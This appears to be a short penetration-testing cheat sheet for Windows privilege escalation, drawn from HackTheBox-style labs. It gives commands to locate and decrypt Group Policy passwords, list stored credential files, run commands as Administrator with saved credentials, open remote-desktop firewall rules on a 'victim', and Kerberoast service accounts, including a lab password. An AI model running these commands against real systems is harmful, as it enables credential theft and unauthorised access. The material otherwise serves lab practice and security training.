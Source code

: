 ```
dir Groups.xml /s
```

On your Kali, you can decrypt Group Policy Password&#x20;

```
gpp-encrpyt $password
```

{% hint style="info" %}
Groups.xml can be found under the below path&#x20;

C:\ProgramData\Microsoft\Group Policy\History{$numbers}\Machine\Preferences\Groups
{% endhint %}

[http://www.fuzzysecurity.com/tutorials/16.html](http://www.fuzzysecurity.com/tutorials/16.html)

### **Finding admin credentails**

```
dir /a C:\Users\$user\AppData\Roaming\Microsoft\Credentials\
```

### **Running commands as a different user by using runas command**

```
runas /user:ACCESS\Administrator /savecred "cmd.exe C:\Users\Administrator\Desktop\root.txt > C:\Users\security\AppData\Local\Temp\test.txt"
```

### Enable RDP in Windows Victim

```
C:\Windows\system32>netsh firewall set service remoteadmin enable 
netsh firewall set service remoteadmin enable
Ok.
C:\Windows\system32>netsh firewall set service remotedesktop enable
netsh firewall set service remotedesktop enable
Ok.
```

### Port 88 - Kerberoasting

Once you have a user shell you can start kerberoasting to get other users' credentials.

Without password

```
python GetUserSPNs.py -request active.htb/SVC_TGS
```

With password

```
GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request
```
